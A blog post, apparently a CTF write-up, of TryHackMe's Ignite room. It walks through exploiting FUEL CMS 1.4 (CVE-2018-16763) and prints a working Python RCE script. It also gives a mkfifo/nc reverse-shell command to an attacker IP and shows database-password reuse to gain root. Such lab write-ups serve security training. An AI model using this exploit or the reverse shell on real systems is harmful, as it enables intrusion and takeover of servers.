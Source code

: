 ```yaml
---
layout: post
title: PenLog - Ignite by TryHackMe
categories: [TryHackMe, Penlog, Write Up, CTF, OSCP]
---
```


## Details

**Platform:** [TryHackMe](https://www.tryhackme.com/)\
**Difficulty:** Easy\
**Link:** [Ignite](https://tryhackme.com/room/ignite)

## Enumeration

Run `nmap` default port scan on target with TCP connect/version/script options:

```bash
$ nmap -vv -Pn -sT -sV -sC 10.10.211.150
```

This results in:

![nmap1](/images/posts/penlog_ignite_by_tryhackme/nmap1.png)
_(**Note:** HTTP title "Welcome to FUEL CMS".)_

Google "FUEL CMS" and note description on [website](https://www.getfuelcms.com/):

_"The content management system for premium-grade websites."_

Open browser an navigate to target's open http port 80; note FUEL CMS version v1.4:

![fuelcms](/images/posts/penlog_ignite_by_tryhackme/fuelcms.png)

Also, note the mention of default credentials:

![fuelcms-creds](/images/posts/penlog_ignite_by_tryhackme/fuelcms_creds.png)
_(**Note:** Logging in to the portal proved useless.)_

Taking a chance on this, use `searchsploit` and evaluate results:

```bash
$ searchsploit fuelcms 1.4
...
```

![searchsploit](/images/posts/penlog_ignite_by_tryhackme/searchsploit_fuelcms.png)
_(**Note:** "ss" in the above is a bash alias for `searchsploit`.)_

Download the PoC with EDB ID [47138](https://www.exploit-db.com/exploits/47138):

```bash
$ searchsploit -m 47138
$ dos2unix 47138
```

### 47138 Description

47138 demonstrates a PHP code execution vulnerability where un-trusted input results in 
Remote Code Execution (RCE). Looking at the code, the vulnerable parameter is highlighted by the `burp0_url`
variable:

```python
burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

The URL encoded data can be decoded like so:

```bash
$ python -c 'import urllib;print(urllib.unquote("%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27\"+urllib.quote(xxxx)+\"%27%29%2b%2"))'
```

![urldecode-filter](/images/posts/penlog_ignite_by_tryhackme/urldecode_filter.png)

As shown in the decoded PHP code, a call to PHP's `system` results in code execution.

## User Shell

I re-wrote the 47138 PoC (_fuelpwn.py_) and stripped out printing of the GET request's response and built-in
support for the Burp Suite proxy:

```python
"""
FUEL CMS v1.4.1 CVE-2018-16763 PoC.

This PoC was derived from: https://www.exploit-db.com/exploits/47138.
"""
import argparse
import urllib
import requests

parser = argparse.ArgumentParser('Fuel CMS v1.4 CVE-2018-16763 PoC')

parser.add_argument('url', type=str, help='URL to target, e.g. http://127.0.0.1')
parser.add_argument('cmd', type=str, help='Command to execute')
args = parser.parse_args()

url=args.url
cmd=args.cmd

payload="'+pi(print($a='system'))+$a('"+cmd+"')+'"
payload_enc=urllib.quote(payload)  # URL encoded payload
filter_path='/fuel/pages/select/?filter='+payload_enc

try:
    _ = requests.get(url+filter_path)
except:
    pass
```
_(**Note:** You can download my port, "fuelpwn.py" [here](https://gist.github.com/wulfgarpro/d302038d40e4aab46a5b61d876b01b93).)_

This port simplifies getting a reverse shell.

Start a `nc` reverse listener on port 4444:

```bash
$ nc -vnlp 4444
```

Run _fuelpwn.py_ supplying target URL and command to execute connecting back to the attacking machine - use fifo since `nc` on target does not have support for `-e` (see `man nc`):

```bash
$ python fuelpwn.py http://10.10.211.150 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.9.232 4444 >/tmp/f"
```

![user-shell](/images/posts/penlog_ignite_by_tryhackme/user_shell.png)
_(**Note:** "reverse" in the above is a bash alias for `nc -vnlp 4444`.)_

Upgrade the shell with a PTY:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ (Ctrl-Z)
$ stty raw -echo
$ fg
$ export TERM=xterm && reset
```

Get the user _flag.txt_:

![user-flag](/images/posts/penlog_ignite_by_tryhackme/user_flag.png)

## Root Shell

Track down the FUEL CMS _config_ directory and use `grep` to find database password:

![dbpassword](/images/posts/penlog_ignite_by_tryhackme/dbpassword.png)

Perform the same to find username:

![dbusername](/images/posts/penlog_ignite_by_tryhackme/dbusername.png)

Notice the username is _root_; test for password re-use against _root_ user and get _root.txt_:

![root-shell](/images/posts/penlog_ignite_by_tryhackme/root_shell.png)
_(**Note:** supplied password was **mememe**.)_
